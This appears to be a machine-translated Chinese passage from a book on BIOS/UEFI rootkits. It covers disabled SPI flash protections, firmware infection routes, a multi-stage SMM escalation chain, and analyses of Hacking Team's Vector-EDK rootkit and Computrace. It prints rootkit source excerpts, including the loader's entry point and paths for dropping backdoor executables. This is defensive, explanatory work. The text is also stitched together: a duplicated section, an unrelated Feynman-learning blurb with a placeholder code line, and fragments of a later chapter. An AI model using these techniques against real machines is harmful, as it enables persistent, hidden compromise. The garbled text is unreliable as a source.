- BC = `0x00000A88` << BIOS 控制 (b:d.f 00:31.5 + 0xDC)
- BIOSWE = `0` << BIOS 写入使能
- BLE = `0` << BIOS 锁定使能
- SRC = `2` << SPI 读取配置
- TSS = `0` << 顶端交换状态
- SMM_BWP = `0` << SMM BIOS 写入保护
- BBS = `0` << 引导 BIOS 跳线
- BILD = `1` << BIOS 接口锁定

BIOS 区域写入保护已禁用！

- BIOS 区域：基址 = `0x00A00000`，上限 = `0x00FFFFFF`

SPI 受保护范围
------------------------------------------------------------
PRx (偏移) | 值 | 基址 | 上限 | WP? | RP?
------------------------------------------------------------
PR0 (84) | 00000000 | 00000000 | 00000000 | 0 | 0
PR1 (88) | 00000000 | 00000000 | 00000000 | 0 | 0
PR2 (8C) | 00000000 | 00000000 | 00000000 | 0 | 0
PR3 (90) | 00000000 | 00000000 | 00000000 | 0 | 0
PR4 (94) | 00000000 | 00000000 | 00000000 | 0 | 0

SPI 受保护范围未对 BIOS 区域进行写入保护

BIOS 应启用所有可用的 SMM 基于写入保护机制，或配置 SPI 受保护范围以保护整个 BIOS 区域

FAILED: BIOS 未完全受保护
```

`Listing 15-1: common.bios_wp 模块的 chipsec 工具输出`

输出显示 BLE ➊ 未启用，这意味着攻击者可以直接在常规操作系统的内核模式下，通过 SPI 闪存芯片修改 BIOS 内存的任意区域。此外，SMM_BWP ➋ 和 PRx ➌ 完全未被使用，表明该平台根本没有启用任何 SPI 闪存保护机制。

如果 `Listing 15-1` 中测试的平台的 BIOS 更新未进行签名，或硬件厂商未正确验证更新，攻击者可以轻易篡改固件。这种情况看似偶然，但此类简单错误实际上相当常见。原因各异：有些厂商对安全毫不在意，另一些虽知晓安全问题，却不愿为低成本硬件开发复杂的更新方案。下面我们来看看其他感染 BIOS 的方式。

## 感染 BIOS 的方式

我们在 `Chapter 14` 中详细审查了复杂且多层次的 UEFI 启动过程。该章节的核心要点是，在 UEFI 固件将控制权交给操作系统加载器，操作系统开始启动之前，攻击者有大量隐藏或感染系统的位置。

事实上，现代 UEFI 固件愈发像一个独立的操作系统。它拥有自己的网络栈和任务调度器，并且可以在启动过程之外直接与物理设备通信——例如，许多设备通过 UEFI DXE 驱动程序与操作系统通信。`Figure 15-3` 展示了固件感染可能通过不同启动阶段实现的情形。


*Figure 15-3: UEFI 固件启动流程中的攻击指针*

多年来，安全研究人员发现了许多漏洞，使攻击者能够在启动过程前注入恶意代码。截至目前，大多数漏洞已被修复，但即使是新硬件，也可能仍受到这些旧问题的影响。以下是通过多种方式在 UEFI 固件中植入持久化根套件或植入程的方式：

**修改未签名的 UEFI 选项 ROM** 攻击者可以修改某些添加卡（如网络卡、存储卡等）中的 UEFI DXE 驱动程序，以在 DXE 阶段执行恶意代码。

**添加/修改 DXE 驱动** 攻击者可以修改已有的 DXE 驱动，或在 UEFI 固件映像中添加恶意 DXE 驱动。结果是，添加或修改后的 DXE 驱动将在 DXE 阶段被执行。

**替换 Windows 引导管理器（回退启动器）** 攻击者可以替换硬盘的 EFI 系统分区 (ESP) 上的启动管理器（回退启动器），例如 `ESP\\EFI\\Microsoft\\Boot\\bootmgfw.efi` 或 `ESP\\EFI\\BOOT\\bootx64.efi`，在 UEFI 固件将控制权交给操作系统加载器时接管代码执行。

**添加新启动器 (*bootkit.efi*)** 攻击者可以通过修改 BootOrder/Boot#### EFI 变量（决定操作系统启动器顺序的变量）来向已有的启动器列表中添加另一个启动器。

在这些方法中，前两种在本章语境下最具吸引力，因为它们在 UEFI DXE 阶段执行恶意代码；我们将重点研究这两种。其余两种方法虽然与 UEFI 启动过程相关，但侧重于攻击操作系统启动器，并在固件执行完毕后运行恶意代码，故本文不进一步展开。

### 修改未签名的 UEFI 选项 ROM

*Option ROM* 是 PCI/PCIe 扩展固件（ROM）的 x86 代码，位于 PCI 兼容设备上。Option ROM 在启动过程中的加载、配置和执行阶段被加载、配置并执行。John Heasman 首先在 2007 年的 Black Hat 会议上揭示了选项 ROM 作为隐蔽根套件感染入口（参见 `Table 15-1`）。2012 年，黑客 Snare 引入多种技术，包括通过选项 ROM 感染 Apple 笔记本电脑（参见 *[`ho.ax/downloads/De_Mysteriis_Dom_Jobsivs_Black_Hat_Slides.pdf`](http://ho.ax/downloads/De_Mysteriis_Dom_Jobsivs_Black_Hat_Slides.pdf)*）。2015 年的 Black Hat 会议上，Trammell Hudson、Xeno Kovah 和 Corey Kallenberg 展示了名为 *Thunderstrike* 的攻击，该攻击通过修改 Apple 以太网适配器的固件加载恶意代码（参见 *[`www.blackhat.com/docs/us-15/materials/us-15-Hudson-Thunderstrike-2-Sith-Strike.pdf`](https://www.blackhat.com/docs/us-15/materials/us-15-Hudson-Thunderstrike-2-Sith-Strike.pdf)*）。

选项 ROM 包含一个特定的 DXE 驱动程序的 PE 镜像，用于 PCI 设备。在 Intel 的开源 EDK2 套件（参见 *[`github.com/tianocore/edk2/`](https://github.com/tianocore/edk2/)*）中，可以找到加载这些 DXE 驱动的代码；在源码中，`PciBusDxe` 文件夹下的 *PciOptionRomSupport.h* 实现了选项 ROM 加载器。`Listing 15-2` 展示了该代码中的 `LoadOpRomImage()` 函数。

```
EFI_STATUS LoadOpRomImage (

➊ IN PCI_IO_DEVICE *PciDevice,   // PCI 设备实例

➋ IN UINT64 RomBase   // 选项 ROM 的地址

);
```

*Listing 15-2: EDK2 中的 `LoadOpRomImage()` 例程*

可以看到，`LoadOpRomImage()` 函数接受两个参数：一个指向 PCI 设备实例的指针 ➊ 和选项 ROM 的地址 ➋。由此可推断该函数会将 ROM 镜像映射到内存并为其执行做准备。随后，`ProcessOpRomImage()` 函数（`Listing 15-3`）负责进一步处理。

```
EFI_STATUS ProcessOpRomImage (

IN PCI_IO_DEVICE *PciDevice   // Pci 设备实例

);
```

*Listing 15-3: EDK2 中的 `ProcessOpRomImage()` 例程*

`ProcessOpRomImage()` 负责启动包含在选项 ROM 中的特定设备驱动程序的执行过程。Thunderstrike 攻击的创建者利用选项 ROM 作为入口点，通过修改 Thunderbolt 以太网适配器，使其能够连接外部外设。该适配器由 Apple 和 Intel 开发，基于 GN2033 芯片，并提供 Thunderbolt 接口。类似于 Thunderstrike 利用的 Thunderbolt 以太网适配器的拆解版本如图 15-4 所示（参考链接 Figure 15-4）。


*Figure 15-4: A disassembled Apple Thunderbolt Ethernet adapter*

具体来说，Thunderstrike 加载了原始选项 ROM 驱动并添加了额外代码，这些代码在固件启动时未对选项 ROM 的扩展驱动进行身份验证，从而被执行（此攻击在 Apple Macbook 上得到验证，但同样适用于其他硬件）。Apple 通过硬件解决了此问题，但许多其他供应商仍可能受到此类攻击的威胁。

Table 15-1 中列出的许多 BIOS 漏洞已在现代硬件和操作系统中得到修复，例如较新版本的 Windows 默认在硬件和固件支持时启用 Secure Boot。我们将在 `Chapter 17` 中详细讨论 Secure Boot 的实现方法和弱点，但目前只需说明，任何缺乏严格身份验证要求的加载固件或扩展驱动都可能成为安全问题。在现代企业级硬件中，第三方选项 ROM 通常默认被阻止，但可以在 BIOS 管理界面中重新启用，如图 15-5 所示（参考链接 Figure 15-5）。


*Figure 15-5: Blocking third-party Option ROMs in the BIOS management interface*

在 Thunderstrike PoC 发布后，包括 Apple 在内的部分供应商加强了对所有未经签名或第三方选项 ROM 的阻止。我们认为这是正确的政策：加载第三方选项 ROM 的情形非常罕见，阻止第三方设备的所有选项 ROM 能显著降低安全风险。如果你在设备上使用带有选项 ROM 的外设扩展，请确保从与设备同一供应商处购买，随意购买的随机选项 ROM 不值得冒险。

### Adding or Modifying a DXE Driver

让我们来看列表中的第二种攻击方式：在 UEFI 固件映像中添加或修改 DXE 驱动。本质上，这种攻击相当直接：通过修改合法的 DXE 驱动，攻击者可以在预启动环境的 DXE 阶段注入恶意代码。但这类攻击最有趣（也是最复杂）的部分在于，添加或修改 DXE 驱动需要绕过固件、操作系统和用户模式应用程序中存在的复杂漏洞链。

一种修改 UEFI 固件中 DXE 驱动的方法是绕过本章前文提到的 SPI 闪存保护位，利用特权提升漏洞实现。提升权限后，攻击者可以关闭保护位，从而禁用 SPI 闪存保护。

另一种方法是利用 BIOS 更新过程中的漏洞，绕过更新身份验证，直接在 SPI 闪存中写入恶意代码。下面我们来看看这些方法是如何用于在 BIOS 中植入恶意代码的。

> **NOTE**
>
> 这两种方法并非唯一用于修改受保护 SPI 闪存内容的手段，但我们在此聚焦于它们，以展示恶意 BIOS 代码如何在受害者计算机上持久化。更完整的 UEFI 固件漏洞列表请参阅 `Chapter 16`。

## Understanding Rootkit Injection

大多数用户的秘密和攻击者感兴趣的敏感信息存储在操作系统的内核级别，或受到运行在该级别的代码保护。因此，根套件长期致力于 compromise kernel-mode（即“Ring 0”）：从该级别，根套件可以观察所有用户活动或针对特定用户模式（“Ring 3”）应用程序，包括其加载的任何组件。

然而，Ring 0 根套件在一个方面存在劣势：缺乏用户模式上下文。当根套件从内核态查看 Ring 3 应用程序持有的数据时，由于设计上内核态不应感知用户级数据抽象，它无法获得最自然的视图，必须通过某种技巧重构数据，尤其是当数据跨越多个内存页时。因此，内核态根套件常需重用实现用户级抽象的代码。即便如此，由于仅有一层分离，这种代码重用并不算困难。

SMM 增加了另一个更佳的目标，但也引入了与用户级抽象更进一步的分离。SMM 根套件可以通过控制任意物理内存页，同时掌控内核级和用户级内存，但其优势同样是劣势 —— 必须可靠地重实现上层抽象（如虚拟内存），并处理相关复杂性。

好在攻击者可以利用 SMM 根套件以类似 bootkits 的方式在操作系统启动时或之后注入恶意 Ring 0 根套件模块，而非仅在启动阶段。随后，它可以依赖这段代码在内核态上下文中使用内核结构，同时躲避内核级安全工具的检测。关键的是，SMM 代码可以选择注入 implant 的时机。

具体而言，固件植入甚至可以绕过某些 Secure Boot 实现 —— 这在启动时直接植入的 rootkit 无法做到的，因为它会在完整性检查完成后才进行感染。如图 15-6 所示，我们展示了加载 Ring 0 根套件的可能方式演变：从最初的简单方案 —— 使用用户模式（Ring 3）加载器利用漏洞提升权限，安装恶意内核驱动（Ring 0），到后来因 Microsoft kernel-mode signing 政策失效而出现的 bootkit 时代，随后 Secure Boot 被引入以抵御此类威胁，再到 SMM 威胁削弱 Secure Boot 的能力。


*Figure 15-6: Possible ways of loading a Ring 0 rootkit*

截至本文撰写时，SMM 威胁已在大多数 Intel 平台上成功绕过 Secure Boot。SMM 根套件和植入再次将安全边界向更底层的物理硬件靠近。

随着 SMM 威胁的流行，固件取证分析成为一个新兴且极其重要的研究方向。

#### Injecting Malicious Code via SMM Privilege Escalation

要提升权限至 SMM 级以修改 SPI 闪存内容，攻击者必须利用操作系统的回调接口 —— 这些接口由系统管理中断处理程序（SMI handler）处理（详见 `Chapter 16`）。负责硬件与操作系统交互的 SMI 处理程序在 SMM 中执行，因此如果攻击者能够利用 SMM 驱动中的漏洞，就有可能获得 SMM 执行权限。具备 SMM 权限的恶意代码可以禁用 SPI 闪存保护位，并在部分平台上修改或添加 DXE 驱动到 UEFI 固件中。

- 了解此类攻击，我们需要从操作系统层面思考持久性感染的攻击战术。攻击者需要在 SPI 闪存中修改内容吗？[Figure 15-7 描绘了必要的步骤。


*Figure 15-7: 通用的 UEFI 根包感染方案*

如图所示，利用路径相当复杂，涉及多层次的漏洞利用。我们将该过程分解为以下阶段：

**第 1 阶段，用户模式** 客户端漏洞利用，例如浏览器 *远程代码执行 (RCE)*，会在系统上丢弃恶意安装程序。随后，安装程序利用特权提升漏洞获取 **LOCALSYSTEM** 访问权限，并在此新权限下继续执行。

**第 2 阶段，内核模式** 安装程序绕过代码签名策略（详见 第 6 章），在内核模式下执行其代码。内核模式负载（驱动）运行一个漏洞利用，以获取 SMM 特权。

**第 3 阶段，系统管理模式** *SMM 代码* 成功执行后，特权提升至 SMM。*SMM 负载* 关闭 SPI 闪存修改的保护措施。

**第 4 阶段，SPI 闪存** 所有 SPI 闪存保护均已禁用，闪存对任意写入保持开放。*根包/植入体* 随后被安装到固件中写入 SPI 芯片。此漏洞实现了系统极高的持久性。

Figure 15-8 中的通用感染方案实际上展示了一个真实的 SMM 勒索软件 PoC，该 PoC 在 2017 年黑帽亚洲会议上发表。演示文稿名为 “UEFI 固件根包：神话与现实”，我们建议感兴趣的读者阅读（*[`www.blackhat.com/docs/asia-17/materials/asia-17-Matrosov-The-UEFI-Firmware-Rootkits-Myths-And-Reality.pdf`](https://www.blackhat.com/docs/asia-17/materials/asia-17-Matrosov-The-UEFI-Firmware-Rootkits-Myths-And-Reality.pdf)*）。

#### 利用 BIOS 更新进程 (In)Security

另一种在 BIOS 中注入恶意代码的方式是利用 BIOS 更新验证过程。BIOS 更新验证旨在防止未经验证真实性的 BIOS 更新安装，确保仅由平台供应商发布的更新镜像被授权安装。如果攻击者成功利用该验证机制的漏洞，他们可以在更新镜像中注入恶意代码，随后写入 SPI 闪存。


## 2017 年 3 月，Alex Matrosov 在黑帽亚洲会议上演示 UEFI 勒索软件 PoC

2017 年 3 月，本书作者之一 Alex Matrosov 在黑帽亚洲会议上演示了 UEFI 勒索软件 PoC（*[`www.cylance.com/en_us/blog/gigabyte-brix-systems-vulnerabilities.html`](https://www.cylance.com/en_us/blog/gigabyte-brix-systems-vulnerabilities.html)*）。他的 PoC 展示了 Gigabyte 实现的弱更新流程如何被利用。他使用了基于 Intel 第六代 CPU（Skylake）和 Microsoft Windows 10 的最新 Gigabyte Brix 平台，所有防护均已启用，包括带有 BLE 位的安全启动。尽管存在这些防护，Gigabyte Brix 平台仍未对更新进行验证，从而允许攻击者从操作系统内核安装任意固件更新（*[`www.kb.cert.org/vuls/id/507496/`](http://www.kb.cert.org/vuls/id/507496/)*）。Figure 15-8 展示了在 Gigabyte Brix 硬件上 BIOS 更新例程的漏洞过程。


*Figure 15-8: UEFI 勒索软件感染算法*

如图所示，攻击者可以利用 BIOS 更新软件（由硬件供应商提供并签名的原始内核模式驱动）来交付恶意 BIOS 更新。该驱动与 SWSMI 处理器 `SmiFlash` 交互，后者提供对 SPI 闪存的读写接口。针对本次演示，其中一个 DXE 驱动被修改并在 SMM 中执行，以展示在 UEFI 固件中实现的最高持久性，并能在最早的引导阶段控制启动过程。如果 UEFI 勒索软件感染成功，目标机器会显示勒索信息（见 Figure 15-9）。


*Figure 15-9: 2017 年黑帽亚洲会议上的活动 UEFI 勒索软件感染画面*

在传统 BIOS 固件中，UEFI 成为行业标准之前，主流硬件厂商对固件更新验证的重视不足，这导致它们对恶意 BIOS 植入极度脆弱。当这些植入开始出现时，厂商被迫关注安全问题。如今，为抵御此类攻击，UEFI 固件更新采用统一格式 —— Capsule Update，详见 UEFI 规范。Capsule Update 旨在改进 BIOS 更新的交付流程。下面我们将详细查看之前提到的 Intel EDK2 仓库中的实现细节。

### Capsule Update 的改进

Capsule Update 包含一个头部（在 EDK2 中称为 `EFI_CAPSULE_HEADER`）和一个体部，用于存储关于更新可执行模块的所有信息，包括 DXE 与 PEI 驱动。Capsule Update 镜像包含对更新数据及用于验证和完整性保护的代码的**强制数字签名**。

我们使用 **UEFITool**（由 Nikolaj Schlej 开发，详见 *[`github.com/LongSoft/UEFITool`](https://github.com/LongSoft/UEFITool)*）查看 Capsule Update 镜像的布局。该工具能够解析 UEFI 固件镜像（包括 UEFI Capsule Update），并以独立二进制文件的形式提取 DXE 或 PEI 可执行模块。我们将在 第 19 章 再次讨论 UEFITool。

Figure 15-10 展示了 UEFI Capsule Update 的结构（在 UEFITool 输出中）。


*Figure 15-10: UEFITool 界面*

Capsule 镜像以 **头部 ➊** 开头，描述更新镜像的通用参数，如头部大小和镜像大小。随后是 **体部 ➋**，其中包含单个 **固件卷 ➌**（Firmware Volume）。固件卷是平台初始化规范中定义的对象，用于存储固件文件镜像（包括 DXE 与 PEI 模块）。本文将在 第 19 章 中对其进行更详细说明。固件卷内的实际 BIOS 更新数据会分多个固件文件写入 SPI 闪存，例如 **BootBlockAreas ➍** 与 **RecoveryAreas ➎** 负责 PEI 阶段的更新，而 **MainAreas ➏** 负责 DXE 阶段的更新。

关键点在于，包含 BIOS 更新的固件卷内容已**数字签名**（尽管 UEFITool 在 Figure 15-11 中不显示此信息）。因此，攻击者在未使数字签名失效的前提下，无法对更新内容进行修改。若实现得当，Capsule Update 能有效防止攻击者利用未经验证的固件更新进行攻击。

## UEFI 根包在野外

自 2015 年卡斯佩斯基实验室发现 UEFI 恶意软件以来，我们已看到多个媒体报道，指称由国家行为体开发的更为高级的根包。本章其余部分将讨论其他 UEFI 根包示例，包括商业组织广泛部署的 **Vector-EDK** 与 **Comptrace**。

### Hacking Team’s Vector-EDK Rootkit

2015 年，一家开发用于执法机构和其他政府客户间谍软件的意大利公司 `Hacking Team` 被入侵，该公司的大量机密信息被公开，包括一个名为 `Vector-EDK` 的有趣项目的描述。分析显示 `Vector-EDK` 是一个 UEFI 固件根钩，它直接在 Windows 用户模式 NTFS 子系统中安装和执行其恶意组件。

Alex Matrosov，本书的作者之一，当时是 Intel 高级威胁研究（ATR）小组的成员，认识到 `Vector-EDK` 的攻击潜力，并发表了博客文章 “Hacking Team’s ‘Bad BIOS’: A Commercial Rootkit for UEFI Firmware?”（*https://www.mcafee.com/enterprise/en-us/threat-center/advanced-threat-research/uefi-rootkit.html*）。

#### 发现 Vector-EDK

我们的调查始于我们发现一份名为 `Z5WE1X64.fd` 的可疑文件，它附在一封被黑客团队泄露的 Hacking Team 邮件的压缩文件 `Uefi_windows_persistent.zip` 中（参见 Figure 15-11）。


*Figure 15-11: 一封从 Hacking Team 档案中泄露的邮件*

在我们分析了该附件后，发现它是一个 UEFI 固件镜像，通过阅读更多泄露的邮件，我们确认这是一个 UEFI 根钩。使用 UEFITool 进行快速调查后，发现 DXE 驱动程序列表中有名为 `rkloader`（暗示 `rootkit loader`）的可疑驱动。Figure 15-12 展示了我们的分析。


*Figure 15-12: Hacking Team Vector-EDK 通过 UEFITool 检测*

这引起了我们的注意，因为我们以前从未见过名为 `rkloader` 的 DXE 驱动。我们更仔细地查看泄露的压缩包，发现了 Vector-EDK 项目的源代码。这正是我们正式开始技术调查的地方。

#### 分析 Vector-EDK

`Vector-EDK` 根钩使用前文讨论过的 UEFI 嵌入式（`rkloader`）传递方法。然而，该根钩仅在 DXE 阶段工作，无法在 BIOS 更新后存活。在被感染的 `Z5WE1X64.fd` BIOS 镜像中，包含了三个主要模块：

**NTFS 解析器** (`Ntfs.efi`) —— 一个 DXE 驱动，包含完整的 NTFS 解析器，用于读写操作。

**根钩** (`rkloader.efi`) —— 一个 DXE 驱动，注册回调以拦截 `EFI_EVENT_GROUP_READY_TO_BOOT` 事件（表示平台准备执行 OS 加载程序），并在 OS 加载程序开始前加载 `fsbg.efi` UEFI 应用。

**引导钩** (`fsbg.efi`) —— 一个 UEFI 应用，在 BIOS 将控制权交给 OS 加载程序前运行。它包含根钩的主要功能，通过 `Ntfs.efi` 解析 NTFS 并将恶意载荷注入文件系统。

我们分析了泄露的 `Vector-EDK` 源代码，发现 `rkloader.efi` 和 `fsbg.efi` 实现了根钩的核心功能。

首先，让我们查看 `rkloader.efi`，它会启动 `fsbg.efi`。Listing 15-4 展示了 UEFI DXE 驱动 `rkloader` 的主例程 `_ModuleEntryPoint()`。

```c
EFI_STATUS  
EFIAPI  
_ModuleEntryPoint (EFI_HANDLE ImageHandle, EFI_SYSTEM_TABLE *SystemTable)  
{  
    EFI_EVENT Event;  
    DEBUG((EFI_D_INFO, "Running RK loader.\\n"));  
    InitializeLib(ImageHandle, SystemTable);  
    gReceived = FALSE; // reset event!  
    //CpuBreakpoint();  
    // wait for EFI EVENT GROUP READY TO BOOT  
    ➊ gBootServices->CreateEventEx( 0x200, 0x10,  
        ➋ &CallbackSMI, NULL, &SMBIOS_TABLE_GUID, &Event );  
    return EFI_SUCCESS;  
}
```

*Listing 15-4: `rkloader` 组件的 `_ModuleEntryPoint()` 例程*

我们发现 `_ModuleEntryPoint()` 只执行两件事，第一件是创建触发 ➊ 的 `EFI_EVENT_GROUP_READY_TO_BOOT` 事件。第二件是当事件到达时，通过 `CallbackSMI()` 执行 SMI 处理程序 ➋。`CreateEventEx()` 的第一个参数表明 `EFI_EVENT_GROUP_READY_TO_BOOT` 的即时值为 `0x200`。该事件在 BIOS DXE 阶段结束、OS 加载程序即将获得控制权之前发生，使恶意载荷 `fsbg.efi` 能在操作系统启动前接管执行。

大部分有趣的逻辑位于 `CallbackSMI()` 例程中（Listing 15-5）。由于代码较长，我们只展示了其关键流程的片段。


## Vector-EDK UEFI 固件 Rootkit 分析

2015 年，一家为执法组织和其他政府客户开发间谍软件的意大利公司 `Hacking Team` 遭到入侵，大量机密信息泄露，其中包括一个名为 `Vector-EDK` 的有趣项目描述。对泄露事件的分析显示，`Vector-EDK` 是一个 UEFI 固件 rootkit，它直接在 Windows 的用户态 NTFS 子系统中安装并执行其恶意组件。

### SMI 回调处理函数

```c
VOID
EFIAPI
CallbackSMI (EFI_EVENT Event, VOID *Context)
{
    --snip--
    ➊ EFI_LOADED_IMAGE_PROTOCOL
}
```

### `rkloader` 加载 `fsbg.efi` 流程

一旦这些协议获得，`rkloader` 构建一个路径来加载 `fsbg.efi` 模块，从固件卷中加载（`fsbg.efi` 正好位于与 `rkloader` 相同的固件卷上）。路径的第一部分 ➎ 是 `rkloader` 所在的固件卷的路径，第二部分 ➏ 在该路径后追加 `fsbg.efi` 模块的唯一标识符：`LAUNCH_APP = {eaea9aec-c9c1-46e2-9d52-432ad25a9b0b}`。

最终步骤是调用 `LoadImage()` 例程 ➐，该例程接管 `fsbg.efi` 模块的执行。这个恶意组件包含了直接修改文件系统的主要负载，以及其想要修改的文件系统的路径。Listing 15-6 提供了 `fsbg.efi` 模块在其中丢弃操作系统级恶意模块的目录列表。


#define FILE_NAME_SCOUT L"\\\\AppData\\\\Roaming\\\\Microsoft\\\\Windows\\\\Start Menu\\\\Programs\\\\Startup\\\\"

#define FILE_NAME_SOLDIER L"\\\\AppData\\\\Roaming\\\\Microsoft\\\\Windows\\\\Start Menu\\\\Programs\\\\Startup\\\\"

#define FILE_NAME_ELITE L"\\\\AppData\\\\Local\\\\"

#define DIR_NAME_ELITE L"\\\\AppData\\\\Local\\\\Microsoft\\\\"

#ifdef FORCE_DEBUG

UINT16 g_NAME_SCOUT[] = L"scoute.exe";

UINT16 g_NAME_SOLDIER[] = L"soldier.exe";

UINT16 g_NAME_ELITE[] = L"elite";

#else

UINT16 g_NAME_SCOUT[] = L"6To_60S7K_FU06yjEhjh5dpFw96549UU";

UINT16 g_NAME_SOLDIER[] = L"kdfas7835jfwe09j29FKFLDOR3r35fJR";

UINT16 g_NAME_ELITE[] = L"eorpekf3904kLDKQO023iosdn93smMXK";

#endif

*Listing 15-6: Hardcoded paths to OS-level components*

在高层面上，`fsbg.efi` 模块遵循以下步骤：

1. 检查系统是否已通过预定义的 UEFI 变量 `fTA` 进行主动感染。
2. 初始化 NTFS 协议。
3. 通过查看固件映像中预定义的部分来查找恶意可执行文件。
4. 通过检查主目录中的名称来查找现有用户，寻找特定目标。
5. 直接在 NTFS 中写入恶意可执行模块 `scoute.exe`（后门）和 `soldier.exe`（RCS 代理）进行安装。

`fTA` UEFI 变量在 `fsbg.efi` 第一次感染时由其安装，之后每次启动时都会检查该变量的存在：如果变量 `fTA` 存在，则表示硬盘上已有活动感染，`fsbg.efi` 无需再向文件系统传送操作系统级恶意二进制文件。如果在硬盘中未发现来自操作系统层面的恶意组件（Listing 15-6），则 `fsbg.efi` 会在启动过程中再次安装它们。

Hacking Team 的 Vector-EDK 是一个非常有启发性的 UEFI 启动根套件示例。我们强烈建议阅读其完整源代码，以更好地理解其工作原理。

### Absolute Software’s Computrace/LoJack

我们接下来的例子是 Absolute Software 的 Computrace/LoJack，它并非真正恶意。Computrace（也称为 LoJack）是 Absolute Software 开发的常见专有反盗窃系统，几乎所有流行的企业笔记本电脑中都内置了该系统。Computrace 实现了基于互联网的笔记本追踪系统，并提供在笔记本丢失或被盗时的远程锁定和远程擦除硬盘功能。

许多研究人员独立声称 Computrace 技术上属于根套件，因为其行为非常类似于 BIOS 根套件。主要区别在于 Computrace 不试图隐藏。其配置菜单甚至可以在 BIOS 设置菜单中找到（Figure 15-13）。


*Figure 15-13: Computrace 菜单在 Lenovo ThinkPad T540p 的 BIOS 设置中*

在非企业计算机出厂时，Computrace 通常默认在 BIOS 菜单中被禁用，如 Figure 15-13 所示。此外，还可以通过设置 NVRAM 变量永久禁用 Computrace，该变量禁止 Computrace 的再激活，并且只能在硬件上编程一次。

下面我们将分析 Computrace 在 Lenovo T540p 和 P50 笔记本上的实现。我们的概念性 Computrace 架构示意图在 Figure 15-14 中给出。

Computrace 架构复杂，包含多个 DXE 驱动，其中一些组件在 SMM（系统管理模式）中运行。它还包含一个名为 `rpcnetp.exe` 的代理，该代理在操作系统中运行，负责所有与云端（C&C 服务器）的网络通信。

LenovoComputraceEnableDxe DXE 驱动用于跟踪 BIOS 菜单中 Computrace 选项，以触发 LenovoComputraceLoaderDxe 的安装阶段。

LenovoComputraceLoaderDxe DXE 驱动用于验证安全策略并加载 AbsoluteComputraceInstallerDxe。

AbsoluteComputraceInstallerDxe DXE 驱动负责将 Computrace 代理二进制文件直接写入操作系统文件系统（NTFS），实现安装。该二进制文件被嵌入到 DXE 驱动镜像中，如 Figure 15-15 所示。在现代笔记本上，使用 ACPI 表进行代理安装。


*Figure 15-14: Computrace 高层架构*


*Figure 15-15: AbsoluteComputraceInstallerDxe 二进制文件在 Hiew 十六进制编辑器中的内容*

LenovoComputraceSmiServices DXE 驱动在 SMM 中执行，用于支持与操作系统代理及其他 BIOS 组件的通信。

**Computrace 代理（`rpcnetp.exe`）** 是 PE 可执行文件，存储在 AbsoluteComputraceInstallerDxe 中。代理在操作系统用户登录后执行。

`rpcnetp.exe` 代理的主要功能是收集地理位置信息并将其发送到 Absolute Software 的云端。它通过在 `iexplore.exe` 和 `svchost.exe` 进程中注入 `rpcnetp.dll` 组件实现，如 Figure 15-16 所示。代理还会从云端接收命令，例如对硬盘进行低级擦除操作，以安全删除文件。


*Figure 15-16: `rpcnetp.exe` 进程注入方案*

Computrace 是一个典型的例子，表面上看起来像 BIOS 根套件，但实际上提供的是合法用途的持久化功能，例如盗窃回收。这种持久化使得 Computrace 的主要组件能够独立于操作系统运行，并能够深度集成到 UEFI 固件中。禁用 Computrace 的难度远大于仅停止其操作系统代理组件！

## 结论

BIOS 根套件和植入件是引导套件进化的下一阶段。正如本章所见，这种进化创造了前所未有的固件持久性水平，目前尚未被防病毒软件所涵盖，这意味着使用这些技术的恶意软件可能存活多年。我们尝试提供了从最初的概念验证和野生样本到高级 UEFI 植入的 BIOS 根套件的详细概述。然而，该主题复杂，需要更多章节才能深入探讨。我们鼓励您点击文中提供的链接，自行阅读更多内容，并关注我们的博客。

针对这种恶意软件的缓解措施仍然较弱，但硬件厂商不断引入更复杂的安全启动实现，其中启动完整性检查从 BIOS 运行之前的更早阶段开始。Chapter 17 将深入探讨现代安全启动实现。此时撰写时，安全行业仍在学习如何对固件进行取证，因为现实中的真实案例信息稀缺。我们将在最后一章进一步介绍 UEFI 固件取证。

Chapter 16 探讨 UEFI 漏洞。据我们所知，迄今为止没有其他书籍在同等详细程度上覆盖该主题，请做好准备！

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 **Richard Feynman**。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```

每个固件单元都是攻击者存储和执行代码的机会，且所有单元相互依赖以维护其完整性。例如，Alex Matrosov 在最近的极佳硬件中发现了一个问题，即 ME 允许将其内存区域写入并从 BIOS 中读取。当与弱 Intel Boot Guard 配置结合时，此问题使我们能够完全绕过硬件的 Boot Guard 实现。（参见 `CVE-2017–11313` 和 `CVE-2017–11314` 获取更多关于此漏洞的信息，该漏洞供应商已确认并修补。）本章后面将讨论 Boot Guard 的实现方式以及可能的绕过方法。

BIOS 根程序的主要目标是维持持久且隐蔽的感染，类似于本书迄今为止描述的内核模式根程序和 MBR/VBR 引导程序。然而，BIOS 根程序可能具有额外的有趣目标。例如，它可能试图暂时获得系统管理模式（SMM）或非特权驱动程序执行环境（DXE；在 SMM 之外执行）的控制权，以隐蔽地进行内存或文件系统操作。即使是非持久攻击，也可以在现代 Windows 系统中（包括基于虚拟化的安全性（VBS）以及虚拟机客户端实例）绕过安全边界。

# 类别化 UEFI 固件漏洞

在深入研究漏洞之前，让我们对 BIOS 嵌入式安装可能针对的安全漏洞类别进行分类。图 16-2（Figure 16-2）所示的所有漏洞类别都能帮助攻击者跨越安全边界并安装持久性植入程序。

英特尔研究人员最初尝试根据攻击对该漏洞可能产生的影响来分类 UEFI 固件漏洞。他们在 2017 年于拉斯维加斯的 Black Hat USA 上发表题为“固件是新黑客——分析过去三年 BIOS/UEFI 安全漏洞的分析”（*[`www.youtube.com/watch?v=SeZO5AYsBCw`](https://www.youtube.com/watch?v=SeZO5AYsBCw)*）的演讲中提出了分类，涵盖了不同类别的安全问题以及一些缓解措施。其最重要的贡献之一是 Intel PSIRT 处理的安全问题总数增长统计数据。

我们对 UEFI 固件安全问题的分类不同，侧重于固件根程序的影响，如图 16-2（Figure 16-2）所示。

> **NOTE**
>
> 图 16-2（Figure 16-2）所代表的威胁模型仅涵盖与 UEFI 固件相关的流，但 Intel ME 和 AMT 的安全问题范围正在显著扩大。此外，近年来 BMC 已成为远程管理服务器平台的重要安全资产，并受到研究人员的广泛关注。


*图 16-2：用于安装 BIOS 植入程序的 BIOS 漏洞分类*

我们可以根据图 16-2（Figure 16-2）中提出的漏洞类别的使用方式对其进行分类，从而得到两大主要组别：*后利用* 和 *受损供应链*。

## 后利用漏洞

